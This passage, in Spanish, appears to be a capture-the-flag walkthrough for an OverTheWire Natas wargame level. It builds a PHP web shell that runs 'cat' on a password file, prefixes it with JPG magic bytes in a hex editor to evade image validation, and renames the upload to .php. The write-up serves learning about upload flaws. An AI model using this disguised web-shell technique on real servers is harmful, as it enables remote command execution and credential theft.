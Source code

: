 Similar al reto anterior, podemos crear un archivo llamado `payload.jpg` que contenga el siguiente código para visualizar el contenido del archivo `/etc/natas_webpass/natas14`. Sin embargo, en esta ocasión, es necesario que utilicemos la extensión `.jpg` para que sea reconocido como una imagen.

```php
<?php
    $output = shell_exec('cat /etc/natas_webpass/natas14');
    echo "<pre>$output</pre>";
?>
```

Este archivo nos permitirá superar la verificación y acceder a la información deseada.

Sin embargo, si intentamos subir este archivo tal como está, el sistema detectará que no es una imagen válida. Esto se debe a que no solo se verifica la extensión del archivo, sino también la firma que corresponde al formato JPG.

Podemos solucionar esto utilizando el editor hexadecimal `hexeditor`:

1.  Abre el archivo `payload.jpg` en `hexeditor`:

    ```bash
    hexeditor -b payload.jpg
    ```
2. Inserta bytes nulos presionando cuatro veces `Ctrl + A`.
3. Luego, sustituye estos bytes nulos por la firma de un archivo JPG, como `FF D8 FF DB`.
4. Finalmente, guarda los cambios y sal del editor presionando `Ctrl + X`.

De esta manera, el archivo pasará la validación de imagen y podremos continuar con la explotación.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-08-19 170010.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-08-19 170040.png" alt=""><figcaption></figcaption></figure>

> **Nota:** Como alternativa, puedes utilizar una imagen válida de menos de 1 KB e inyectar al final de esta el código PHP mencionado anteriormente. Esto permitirá que la imagen pase las verificaciones necesarias, mientras que el código PHP adicional se ejecutará al procesar el archivo, mostrando el contenido de `/etc/natas_webpass/natas14`.

Después de realizar estos cambios, selecciona este archivo para subirlo. Antes de enviarlo, edita el nombre del archivo en el campo del formulario de carga y cambia su extensión a `.php`.
